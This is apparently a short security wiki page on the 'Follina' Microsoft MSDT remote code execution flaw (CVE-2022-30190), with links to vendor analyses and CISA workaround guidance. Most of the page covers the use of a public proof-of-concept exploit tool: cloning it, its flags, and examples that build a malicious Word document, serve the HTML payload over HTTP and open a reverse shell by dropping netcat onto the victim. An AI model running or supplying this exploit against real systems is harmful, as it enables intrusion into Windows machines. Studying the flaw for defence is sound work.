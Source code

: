 ```yaml
---
title : "CVE-2022-30190"
# pre : ' '
description : "Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'."
date : 2022-06-02T11:07:21+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2022-30190 - Microsoft Support Diagnostic Tool (MSDT) RCE Vulnerability 'Follina'

![Example](images/example1.png)

## Installation

```plain
git clone https://github.com/JohnHammond/msdt-follina
```

## Usage

```plain
follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]
```

## Flags

```plain
options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

## Examples

Pop `calc.exe`:

```plain
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```plain
python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```plain
python3 follina.py -r 9001
```

![Example](images/example2.png)

## URL List

* [Github.com - msdt-follina](https://github.com/JohnHammond/msdt-follina)
* [YouTube.com - let’s play with a ZERO-DAY vulnerability 'follina'](https://www.youtube.com/watch?v=3ytqP1QvhUc)
* [Fortinet.com - Analysis of Follina Zero Day](https://www.fortinet.com/blog/threat-research/analysis-of-follina-zero-day)
* [Kaspersky.com - Follina: office documents as an entrance](https://www.kaspersky.com/blog/follina-cve-2022-30190-msdt/44461/)
* [Cisa.gov - Microsoft Releases Workaround Guidance for MSDT 'Follina' Vulnerability](https://www.cisa.gov/uscert/ncas/current-activity/2022/05/31/microsoft-releases-workaround-guidance-msdt-follina-vulnerability)
* [Huntress.com - Rapid Response: Microsoft Office RCE - 'Follina' MSDT Attack](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug)
